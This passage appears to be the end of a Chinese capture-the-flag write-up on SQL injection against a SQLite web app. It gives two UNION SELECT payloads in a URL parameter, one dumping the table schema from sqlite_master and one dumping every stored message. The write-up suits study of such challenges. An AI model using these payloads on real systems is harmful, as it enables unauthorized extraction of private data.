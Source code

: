 ```
// Hackbar dump column names，你可以得到每个列的名字和他的变量类型。
https://xxx.xx:8443/view?conversation_id=blabla' union select group_concat(sql),2 from sqlite_master WHERE type='table'--

```
上面的是一种常规思路吧，其实题目源代码很多都有不需要通过注入得到，那么接下来一把梭。
```
https://xxx.xx:8443/view?conversation_id=blabla'union select group_concat(contents),2 from messages--
```
从messages中取出contents列的所有内容，这时你的浏览器应该回了很多内容，这时ctrl+f寻找吧。

## 后记
如有错误，欢迎指正，也欢迎探讨各种Geek things。